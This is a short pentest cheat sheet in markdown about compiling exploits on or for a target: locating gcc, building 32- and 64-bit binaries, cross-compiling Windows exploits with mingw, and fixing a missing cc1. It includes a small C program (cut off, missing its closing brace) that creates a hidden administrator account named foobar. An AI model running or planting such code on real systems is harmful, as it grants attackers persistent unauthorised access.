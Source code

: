 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Compiling

gcc not found on target?  Try:

```bash - target
find / -name gcc -type f 2>/dev/null
```

OR

==Remember you can locally compile if needed!==

64 bit compiling:
```bash - kali
gcc 15285.c -o 15285
```

i686 compiling:
```bash - kali
gcc 15285.c -o 15285 -m32
```

#### Multilib installation
```bash - kali
sudo apt-get install gcc-multilib -y
```

#### Windows cross compiling
![[Pasted image 20211230173000.png]]

```bash - kali
i686-w64-mingw32-gcc exploit.c  -o exploit -lsw2_32
```

```bash - kali
gcc -m32 -Wl,--hash-style=both 9545.c -o 9545
```

Compile code to add new user to administrators:
adduser.c:
```c - kali
#include <stdlib.h>
int main ()
{
int i;
i = system ("net user foobar Pass123 /add");
i = system ("net localgroup administrators foobar /add");
```

```bash - kali
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### cc1 No such file or directory

![[Pasted image 20220220205911.png]]

```bash - target
locate cc1
```
OR
```bash - target
find / -iname cc1 2> /dev/null
```

> /usr/lib/gcc/i686-linux-gnu/5/cc1

Add ```/usr/lib/gcc/i686-linux-gnu/5/``` to PATH

```bash - target
export PATH="/usr/lib/gcc/i686-linux-gnu/5/:$PATH"
```







